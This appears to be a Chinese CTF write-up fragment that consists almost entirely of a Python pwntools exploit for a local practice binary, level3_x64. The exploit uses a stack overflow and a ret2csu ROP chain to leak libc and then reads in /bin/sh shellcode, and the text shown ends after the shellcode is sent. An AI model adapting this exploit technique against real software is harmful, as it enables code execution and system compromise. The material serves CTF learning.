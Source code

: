 完整exp如下：

```python
from pwn import *
context.log_level='debug'
context.arch='amd64' #shellcode

p=process('./level3_x64')
elf=ELF('./level3_x64')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

'''
pwndbg> cyclic -l 0x6261616a
136
ubuntu@ubuntu:~/Desktop/CTF$ ROPgadget --binary level3_x64 --only "pop|ret"
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400499 : ret

Unique gadgets found: 11
ubuntu@ubuntu:~/Desktop/CTF$ 
'''
pop_rdi_ret=0x4006b3 #rdi, rsi, rdx
pop_rsi_r15_ret=0x4006b1
pop_rbx_rbp_r12_r13_r14_r15_ret=0x4006AA
mov_gadget=0x400690
write_plt_addr=elf.plt['write']
write_got_addr=elf.got['write']
print hex(write_plt_addr)
print hex(write_got_addr)
main_addr=0x40061A
#gdb.attach(p)
p.recvuntil('Input:\n')
payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_got_addr)+p64(0x8)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
#payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_got_addr)+p64(0x10)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)+p64(0xdeadbeef)*6+p64(main_addr)
#payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(write_plt_addr)+p64(0x10)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)
p.sendline(payload1)
leak_write_real_addr=u64(p.recv(8))
libc_base=leak_write_real_addr-libc.symbols['write']
print hex(libc_base)

#gdb.attach(p)
read_got_addr=elf.got['read']
bss_addr=elf.bss()
print hex(bss_addr)
payload2='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(read_got_addr)+p64(0x100)+p64(bss_addr)+p64(0x0)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
p.recvuntil('Input:\n')
p.sendline(payload2)
shellcode=asm(shellcraft.sh())
p.sendline(shellcode)
```